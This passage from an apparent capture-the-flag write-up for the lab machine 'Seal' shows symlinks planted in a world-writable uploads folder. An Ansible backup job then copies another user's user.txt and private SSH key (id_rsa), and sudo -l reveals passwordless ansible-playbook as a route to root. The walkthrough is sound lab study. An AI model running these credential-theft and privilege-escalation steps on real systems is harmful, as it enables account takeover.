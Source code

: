 ```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -la
total 100
drwxr-xr-x 7 root root  4096 May  7 09:26 .
drwxr-xr-x 3 root root  4096 May  6 10:48 ..
drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
drwxr-xr-x 2 root root  4096 Mar  7  2015 css
drwxr-xr-x 4 root root  4096 Mar  7  2015 images
-rw-r--r-- 1 root root 71744 May  6 10:42 index.html
drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
drwxrwxrwx 2 root root  4096 May  7 09:26 uploads
```

An interesting point is a flag `copy_links=yes` added in the `synchronize` task which, according to [synchronize - Ansible Documentation](https://docs.ansible.com/ansible/2.3/synchronize_module.html), it will copy the actual file from the links in the respective directories.

To test this theory, we can attempt to create two links inside the uploads directory, one for `user.txt` flag and the second for `.ssh` from `luis`' profile

```bash
ln -s /home/luis/user.txt /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/user.txt
ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/.ssh
```

One minute later, the

```bash
$ find ./dashboard/uploads -type f
./user.txt
./.ssh/authorized_keys
./.ssh/id_rsa
./.ssh/id_rsa.pub
```

```bash
luis@seal:~$ cat user.txt
<redacted>
```

## Root flag

Now that we're with Luis account, running `sudo -l`

```bash
luis@seal:~/.ansible/tmp$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

According to [ansible playbook | GTFOBins](https://gtfobins.github.io/gtfobins/ansible-playbook/#sudo), we can use
